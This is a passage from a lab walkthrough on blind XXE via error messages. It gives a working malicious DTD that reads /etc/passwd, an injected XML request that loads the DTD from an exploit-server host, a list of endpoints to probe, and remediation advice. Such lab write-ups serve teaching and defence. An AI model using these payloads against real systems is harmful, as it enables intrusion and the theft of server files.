     ↓
loads external DTD
     ↓
executes attacker logic
     ↓
error leaks file content
```

---

## 🟢 Lab Walkthrough (Step-by-Step)

---

### 🌐 Step 1 — Host Malicious DTD (Exploit Server)

```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```



---

### 🔗 Step 2 — Get DTD URL

Example:

```txt
https://exploit-0abc.exploit-server.net/exploit
```

---

### 📥 Step 3 — Intercept XML Request

Original request:

```xml
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

---

### 💉 Step 4 — Inject External DTD

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY % xxe SYSTEM "https://exploit-0abc.exploit-server.net/exploit">
%xxe;
]>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

---

## 🔍 Payload Breakdown

---

### 📌 1. XML Declaration

Declares XML format version

---

### 📌 2. DOCTYPE Block

Enables entity definition and DTD usage

---

### 📌 3. External Entity (%xxe)

Fetches attacker-hosted DTD file

---

### 📌 4. DTD Execution Chain

Inside DTD:

```txt
%file  → reads /etc/passwd
%eval  → builds malicious entity
%exfil → triggers invalid file access
```

---

### 📌 5. Error-Based Leak

Invalid file path includes:

```txt
%file
```

→ leaks data in error message

---

## 🔥 Full Attack Flow

```txt
1. XML request sent
2. Server loads external DTD
3. DTD reads /etc/passwd
4. DTD builds invalid file path
5. XML parser throws error
6. Error message leaks file content
```

---

## 🌍 Real-World Scenarios

This vulnerability appears in:

---

### 🏦 Banking / Finance Systems

SOAP APIs

transaction engines

---

### ☁️ Cloud Platforms

metadata endpoints

IAM credential exposure

---

### 🧾 Enterprise Applications

ERP systems

invoice processing engines

---

### 📦 File Processing Systems

XML import tools

report generators

---

## 🎯 High Value Endpoints

Look for XML parsing here:

```txt
/stockCheck
/api/xml
/soap
/upload
/import
/validate
/process
```

---

## ⚠️ Why This Attack Works

Because:

XML parser trusts external DTD

attacker controls DTD content

errors expose internal data

no direct output needed (blind bypassed)

---

## 🛡️ Remediation

disable external DTD loading

disable parameter entities

disable DOCTYPE completely

use secure XML parsers

avoid exposing raw error messages

prefer JSON instead of XML

---

## 🧠 One-Line Summary

👉 “External DTD XXE tricks XML parser into fetching attacker logic, reading server files, and leaking them through error messages.”
